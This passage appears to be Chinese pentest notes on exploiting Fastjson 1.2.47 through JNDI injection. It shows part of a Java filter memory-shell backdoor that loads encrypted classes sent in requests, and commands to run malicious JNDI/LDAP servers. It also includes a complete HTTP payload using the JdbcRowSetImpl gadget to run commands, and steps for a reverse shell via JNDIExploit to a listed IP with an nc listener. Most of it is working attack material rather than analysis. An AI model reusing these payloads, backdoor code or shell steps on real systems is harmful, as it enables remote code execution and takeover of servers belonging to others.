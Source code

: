 ```
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
 ```
 
 ## 参考
 * https://github.com/veracode-research/rogue-jndi
 * https://github.com/welk1n/JNDI-Injection-Exploit
 * https://github.com/welk1n/JNDI-Injection-Bypass
```
服务器：<br />java -jar JNDI.jar -i 0.0.0.0 -l 1389

漏洞环境
```python
POST 路径 HTTP/1.1
Host: url
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
cmd: whoami
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 208
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:1389/TomcatBypass/TomcatEcho","autoCommit":true}}
```
jndi回显，十分鸡肋，不稳定，只能执行短命令、1.2.47版本<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627893772901-0a0fc5f5-10af-403e-8e84-47c491dd0e83.png#height=463&id=DjohK&originHeight=463&originWidth=1638&originalType=binary&ratio=1&rotation=0&showTitle=false&size=177917&status=done&style=none&title=&width=1638)

<a name="Onfwv"></a>
### jndi反弹shell
java -jar JNDIExploit-v1.11.jar -i 121.4.236.95<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628437757891-712dcb67-321f-4182-b377-76d2e35b7a44.png#height=217&id=LyeXw&originHeight=217&originWidth=889&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32662&status=done&style=none&title=&width=889)<br />nc同时监听<br />/Basic/ReverseShell/<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628437811135-f2c48d69-6d5e-46fe-bd88-a933ce21440d.png#height=345&id=jFxAF&originHeight=690&originWidth=1540&originalType=binary&ratio=1&rotation=0&showTitle=false&size=89361&status=done&style=none&title=&width=770)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628439738779-0c89f1c8-46a4-4f5f-9b3a-90f0bce56dbf.png#height=181&id=mI6u5&originHeight=241&originWidth=685&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17885&status=done&style=none&title=&width=514)
